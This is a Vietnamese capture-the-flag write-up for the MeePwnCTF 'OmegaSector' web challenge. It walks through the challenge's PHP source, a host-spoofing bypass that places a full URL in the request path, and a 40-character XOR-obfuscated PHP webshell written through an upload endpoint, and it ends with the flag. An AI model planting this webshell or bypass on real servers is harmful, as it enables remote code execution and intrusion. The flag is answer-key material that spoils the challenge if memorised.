





# OmegaSector  
  
## `Overview`  
  
Ta có thể lấy source code `index.php` qua việc thêm param `?is_debug=1` thông qua hint trong source HTML và tiến hành debug thôi XD  
  
```php
Seems like you are not belongs to this place, please comeback to ludibrium!
<?php
ob_start();
session_start();
?>
<html>
<style type="text/css">* {cursor: url(assets/maplcursor.cur), auto !important;}</style>
<head>
  <link rel="stylesheet" href="assets/omega_sector.css">
  <link rel="stylesheet" href="assets/tsu_effect.css">
</head>

<?php

ini_set("display_errors", 0);
include('secret.php');

$remote=$_SERVER['REQUEST_URI'];

if(strpos(urldecode($remote),'..'))
{
mapl_die();
}

if(!parse_url($remote, PHP_URL_HOST))
{
    $remote='http://'.$_SERVER['REMOTE_ADDR'].$_SERVER['REQUEST_URI'];
}
$whoareyou=parse_url($remote, PHP_URL_HOST);


if($whoareyou==="alien.somewhere.meepwn.team")
{
    if(!isset($_GET['alien']))
    {
        $wrong = <<<EOF
<h2 id="intro" class="neon">You will be driven to hidden-street place in omega sector which is only for alien! Please verify your credentials first to get into the taxi!</h2>
<h1 id="main" class="shadow">Are You ALIEN??</h1>
<form id="main">
    <button type="submit" class="button-success" name="alien" value="Yes">Yes</button>
    <button type="submit" class="button-error" name="alien" value="No">No</button>
</form>

EOF;
        echo $wrong;
    }
    if(isset($_GET['alien']) and !empty($_GET['alien']))
    {
         if($_GET['alien']==='@!#$@!@@')
        {
            $_SESSION['auth']=hash('sha256', 'alien'.$salt);
            exit(header( "Location: alien_sector.php" ));
        }
        else
        {
            mapl_die();
        }
    }

}
elseif($whoareyou==="human.ludibrium.meepwn.team")
{
    
    if(!isset($_GET['human']))
    {
        echo "";
        $wrong = <<<EOF
<h2 id="intro" class="neon">hellu human, welcome to omega sector, please verify your credentials to get into the taxi!</h2>
<h1 id="main" class="shadow">Are You Human?</h1>
<form id="main">
    <button type="submit" class="button-success" name="human" value="Yes">Yes</button>
    <button type="submit" class="button-error" name="human" value="No">No</button>
</form>

EOF;
        echo $wrong;
    }
    if(isset($_GET['human']) and !empty($_GET['human']))
    {
         if($_GET['human']==='Yes')
        {
            $_SESSION['auth']=hash('sha256', 'human'.$salt);
            exit(header( "Location: omega_sector.php" ));
        }
        else
        {
            mapl_die();
        }
    }

}
else
{
    echo '<h2 id="intro" class="neon">Seems like you are not belongs to this place, please comeback to ludibrium!</h2>';
    echo '';
    if(isset($_GET['is_debug']) and !empty($_GET['is_debug']) and $_GET['is_debug']==="1")
    {
        show_source(__FILE__);
    }
}

?>
<body background="assets/background.jpg" class="cenback">
</body>
<!-- is_debug=1 -->
<!-- All images/medias credit goes to nexon, wizet -->
</html>
<?php ob_end_flush(); ?>
```  
Nhìn sơ qua source code, ta thấy có 2 chức năng ẩn trên web là  
  
```php  
if($whoareyou==="alien.somewhere.meepwn.team")
{
    if(!isset($_GET['alien']))
    {
        $wrong = <<<EOF
<h2 id="intro" class="neon">You will be driven to hidden-street place in omega sector which is only for alien! Please verify your credentials first to get into the taxi!</h2>
<h1 id="main" class="shadow">Are You ALIEN??</h1>
<form id="main">
    <button type="submit" class="button-success" name="alien" value="Yes">Yes</button>
    <button type="submit" class="button-error" name="alien" value="No">No</button>
</form>

EOF;
        echo $wrong;
    }
    if(isset($_GET['alien']) and !empty($_GET['alien']))
    {
         if($_GET['alien']==='@!#$@!@@')
        {
            $_SESSION['auth']=hash('sha256', 'alien'.$salt);
            exit(header( "Location: alien_sector.php" ));
        }
        else
        {
            mapl_die();
        }
    }

}
```
và một chức năng nữa  
```php  
elseif($whoareyou==="human.ludibrium.meepwn.team")
{
    
    if(!isset($_GET['human']))
    {
        echo "";
        $wrong = <<<EOF
<h2 id="intro" class="neon">hellu human, welcome to omega sector, please verify your credentials to get into the taxi!</h2>
<h1 id="main" class="shadow">Are You Human?</h1>
<form id="main">
    <button type="submit" class="button-success" name="human" value="Yes">Yes</button>
    <button type="submit" class="button-error" name="human" value="No">No</button>
</form>

EOF;
        echo $wrong;
    }
    if(isset($_GET['human']) and !empty($_GET['human']))
    {
         if($_GET['human']==='Yes')
        {
            $_SESSION['auth']=hash('sha256', 'human'.$salt);
            exit(header( "Location: omega_sector.php" ));
        }
        else
        {
            mapl_die();
        }
    }

}
```  
Cả 2 chức năng đó đều lead ta tới một file php khác, cụ thể là `omega_sector.php` và `alien_sector.php` nhưng vì không được cung cấp source nên cũng không biết là chúng dùng để 
làm gì, nhưng không có gì là thừa cả :v, có khi nó được thêm vào để giúp ta lấy flag thì sao :))). 
  
## `Analysis`  
  
Nhưng để truy cập vào những file php trong đó, thì phải phụ thuộc vào biến `$whoareyou`. Do đó, ta nên xem biến này được generate như thế nào đã  
  
```
$remote=$_SERVER['REQUEST_URI'];

if(strpos(urldecode($remote),'..'))
{
mapl_die();
}

if(!parse_url($remote, PHP_URL_HOST))
{
    $remote='http://'.$_SERVER['REMOTE_ADDR'].$_SERVER['REQUEST_URI'];
}
$whoareyou=parse_url($remote, PHP_URL_HOST);
```  
Giá trị của biến `$whoareyou` là một URL_HOST được parse từ giá trị của biến `$remote`, nhưng có điều hơi sai sai là giá trị của biến `$remote` lại được lấy từ `$_SERVER['REQUEST_URI']`. Một chút về `$_SERVER['REQUEST_URI']`, nó sẽ trả về đường dẫn đến một resource nào đó và kể cả query_string chứa trên server (EX: https://localhost/nhienit?query=123 REQUEST_URI = '/nhienit?query=123'). Nhưng mà ta có source rồi, nên mình sẽ tiến hành debug trên local  
  
  
Như ta thấy, `REQUEST_URL` của ta bao gồm cả `path` lẫn `query_string` nhưng do nó không chứa địa chỉ host nào nên nó sẽ dùng `REMOTE_ADDR` thay cho `URL_HOST` (cụ thể ở đây là 127.0.0.1) => Vậy nếu ta thay nó bằng một URL nào đó thì sao nhỉ??  
  
  
Kết quả như mong đợi, lúc này host đã đổi thành `www.google.com` nên dùng trick này để bypass  
  
  
Thành công, ta có thể truy cập vào `alien_sector.php`  
  
## `Exploit`  
Nhờ vào trick trên, chúng ta có thể truy cập vào 2 file `alien_sector.php` và `omega_sector.php`. Đối với `alien_sector.php` chúng ta cần param `?alien=@!#$@!@@`, tương tự với `omega_sector.php` thì ta cần param `?human=Yes`. Về cơ bản của 2 file này đó là cho phép ta viết một file bất kỳ lên server và có thể truy cập trực tiếp, với những dạng như thế này thì thường là ta cần viết webshell để đọc flag. Và cả 2 chức năng đều có request như thế này  
  
  
Sự khác nhau cơ bản nhất giữa chúng là:  
- Message post lên `omega_sector.php` là những ký tự alphabet.  
- Message post lên `alien_sector.php` là những ký tự đặc biệt không nằm trong ký tự alphabet.  

Mục tiêu của ta là viết một webshell là php code, nhưng sẽ rất khó để định nghĩa một biến hay một chuỗi mà không chứa các ký tự như `$, ', "` hoặc cơ bản nhất nhất là dấu `;` để phân tách các dòng code với nhau. Do vậy, `omega_sector.php` sẽ không sử dụng được => vậy chỉ còn lại `alien_sector.php` mà thôi!!  
  
Param `type` khi post lên sẽ là `extension` của file khi mà webserver sẽ lưu trữ, nên ta có thể đổi thành `type=php` để viết `php file`. Tra google thì có rất nhiều cách bypass để write webshell mà không dùng letter, nhưng một thứ cản trở ta làm được việc đó chính là bị giới hạn ký tự, cụ thể chỉ cho phép viết một `"message"` chỉ 40 chars. Nhưng may mắn thay, mình tìm được một [webshell](https://gist.github.com/mvisat/03592a5ab0743cd43c2aa65bf45fef21) chỉ chứa đúng vỏn vẹn là 40 ký tự thôi.  
```php  
<?=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);
```  
Phân tích payload trên như sau:  
- Tác giả dùng kỹ thuật XORing để xor 2 chuỗi lại với nhau để ra letter, trong trường hợp này thì ``` $_ = "`{{{"^"?<>/"; // $_ = "_GET" ```  
- Ngoài cách định nghĩa tên biến như `$variable` ta còn có thể dùng `${"variable"}`, nghĩa là đặt một string vào trong bracket  
- Cuối cùng là chức năng gọi hàm `${$_}[_](${$_}[__])`, và 2 param cần là `?_=&__=`  

  
  
Flag: `MeePwnCTF{__133-221-333-123-111___}`  
